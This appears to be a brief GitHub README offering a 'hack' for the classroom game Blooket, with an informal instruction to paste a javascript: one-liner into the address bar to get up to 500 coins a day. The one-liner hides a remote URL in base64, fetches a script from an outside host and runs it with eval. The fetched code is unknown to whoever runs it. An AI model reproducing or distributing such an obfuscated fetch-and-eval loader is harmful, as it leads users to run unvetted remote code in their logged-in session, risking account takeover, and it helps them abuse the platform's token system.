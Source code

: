 # hacks-for-blooket
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
and how you put it in at the top and press ctrl v and enter it will ask you how many coins you want the max is 500 the limt for a day every day you can do it 



